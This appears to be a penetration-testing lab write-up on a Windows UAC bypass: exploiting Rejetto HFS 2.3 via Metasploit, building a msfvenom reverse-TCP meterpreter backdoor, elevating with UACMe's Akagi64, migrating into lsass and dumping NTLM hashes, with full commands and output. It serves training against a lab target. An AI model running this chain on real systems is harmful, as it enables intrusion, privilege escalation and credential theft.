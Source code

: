 # 🔬UAC Bypass

## Lab 1

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> - Target IP: `10.4.19.119`
> - **UAC** bypass

- Some useful Win CMD commands

```bash
net user
net localgroup administrators
```

### Enumeration

```bash
nmap 10.4.19.119
```

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49175/tcp open  unknown
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.19.119
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

![nmap port 80](windows-attacksassets/image-20230317102551735.png)

- The version can be checked in a browser by opening the link
  - `http://10.4.19.119/`

### Exploitation

```bash
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.19.119
```

```bash
search hfs
use exploit/windows/http/rejetto_hfs_exec
options
# Check other options, TARGETURI, Payload options, if necessary
exploit
```

- [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)
- [Metasploit rejetto_hfs_exec](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)

![Metasploit rejetto_hfs_exec](windows-attacksassets/image-20230317103334601.png)

- Use `meterpreter` commands to gain more information about the target

```bash
getuid
	Server username: VICTIM\admin

sysinfo
    Computer       : VICTIM
    OS             : Windows 2012 R2 (6.3 Build 9600).
    Architecture   : x64
    System Language: en_US
    Domain         : WORKGROUP
    Logged On Users: 2
    Meterpreter    : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 2708
```

- Get `admin` user privileges

```bash
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

![](windows-attacksassets/image-20230317104309714.png)

- Verify if `admin` user is part of the local administrators group

```bash
shell
net user
net localgroup administrators

    Alias name   administrators
    Comment   Administrators have complete and unrestricted access to the computer/domain
    Members
    -------------------------------------------------------------------------------
    admin
    Administrator
# "admin" user is a local administrator
```

![](windows-attacksassets/image-20230317104340214.png)

- In order to run programs or tasks with elevated privileges, UAC bypass is necessary

### UAC Bypass & Privesc

- [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
ls /root/Desktop/tools/UACME/
	Akagi64.exe
```

- Generate a `meterpreter` payload with `msfvenom`

```bash
ip -br -c a
	eth1@if162568  UP  10.10.4.2/24
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > backdoor.exe
```

- Set up a new `msfconsole` session and set up a listener  with `multi/handler`, to receive the connection one the payload is executed on the target
  - set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
  - set the LHOST IP and LPORT of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

- The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
- Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

![](windows-attacksassets/image-20230317110554477.png)

- UAC would prevent running `backdoor.exe`
- Run `Akagi64.exe` executable with UACMe methor 23

```bash
Akagi64.exe 23 C:\Temp\backdoor.exe
```

![Akagi64.exe](windows-attacksassets/image-20230317110948134.png)

- Elevated `meterpreter` session should be received on the listener

![Elevated Mterpreter session received](windows-attacksassets/image-20230317111043471.png)

- Migrate to a `NT AUTHORITY\SYSTEM` service

```bash
ps
ps -S lsass.exe
	692
migrate 692
```

![](windows-attacksassets/image-20230317111259217.png)

> 📌 **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

- Dump hashes to get the flag

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

<details>
<summary>Reveal Flag - admin NTLM Hash is: 🚩</summary>


`4d6583ed4cef81c2f2ac3c88fc5f3da6`

</details>

------


